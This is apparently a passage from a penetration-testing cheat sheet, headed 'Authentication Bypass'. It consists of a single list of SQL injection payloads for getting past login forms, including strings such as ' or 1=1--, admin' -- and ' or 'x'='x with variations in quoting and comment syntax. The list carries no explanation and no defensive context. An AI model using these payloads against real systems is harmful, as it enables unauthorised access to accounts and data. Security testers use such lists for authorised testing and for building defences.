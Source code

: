 ### Authentication Bypass

```console
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
' || '1'='1';-- -
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 LIKE 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
```
